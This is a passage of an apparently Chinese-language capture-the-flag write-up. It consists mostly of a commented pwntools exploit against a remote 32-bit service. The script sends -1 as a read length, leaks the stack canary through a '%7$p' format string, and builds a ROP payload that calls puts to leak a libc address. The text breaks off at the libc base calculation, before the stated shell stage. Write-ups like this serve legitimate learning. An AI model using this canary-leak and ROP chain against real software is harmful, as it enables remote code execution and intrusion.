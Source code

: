 第二个是实现payload

大概思路就是先泄漏cannary地址以及libc地址计算libc基值

第二次rop拿shell

exp:

```python
# 导入pwntools库中的所有内容（假设Pwnmodules是pwntools的别名或封装）  
from Pwnmodules import *  
  
# 设置pwntools的上下文环境，包括日志级别、目标架构和操作系统  
context(log_level='debug', arch='i386', os='linux')  
  
# 创建一个远程目标对象，指定IP地址和端口号  
target = Target("27.25.151.80", 41451)  
  
# 加载本地ELF二进制文件（可能是目标程序的副本）  
elf = ELF("/root/Pwn/unint/./unint")  
  
# 加载本地libc库文件（与目标系统上的libc版本匹配）  
libc = ELF("/root/Pwn/unint/./libc-2.23.so")  
  
# 与远程目标进行交互，发送数据并接收响应  
# 这里假设远程服务会询问要读取的字节数  
target.ru("How many bytes do you want me to read? ")  
  
# 发送-1作为字节数，可能是为了触发某种错误或漏洞行为  
target.sl(b'-1')  
  
# 发送格式化字符串攻击载荷，尝试泄露栈上的信息  
# %7$p是一个格式化字符串指令，用于打印栈上第七个参数的值（以指针形式）  
target.sla("Ok, sounds good. What's your name?\n", b'%7$p')  
  
# 接收远程目标的响应，这里假设它会打印出“Your name is:”后跟泄露的地址  
target.ru("Your name is:")  
  
# 接收并解析泄露的栈地址（转换为十六进制整数）  
# 注意：这里假设泄露的地址后面跟着"00"，这可能是因为栈上的字符串以空字符结尾  
cannary = int(target.ru("00"), 16)  
  
# 定义一些关键的地址，包括puts函数的PLT、GOT入口和main函数的地址  
puts_plt = 0x80484a0  
puts_got = 0x0804a01c  
main = 0x80487c8  
  
# 打印泄露的栈地址  
print(hex(cannary))  
  
# 构造第一个攻击载荷  
# 这个载荷包括一些填充（'a'*0x20），栈地址（cannary），三个1（可能是为了绕过某些检查），  
# puts函数的PLT地址，main函数的地址，以及puts函数的GOT地址  
payload = b'a'*0x20 + p32(cannary) + p32(1)*3 + p32(puts_plt) + p32(main) + p32(puts_got)  
  
# 发送第一个攻击载荷  
target.sla("me what you got!\n", payload)  
  
# 接收远程目标返回的数据（应该是puts函数的地址）  
target.rl()  
puts_addr = u32(target.r(4))  
  
# 打印puts函数的地址  
print(hex(puts_addr))  
  
# 计算libc库的基地址  
```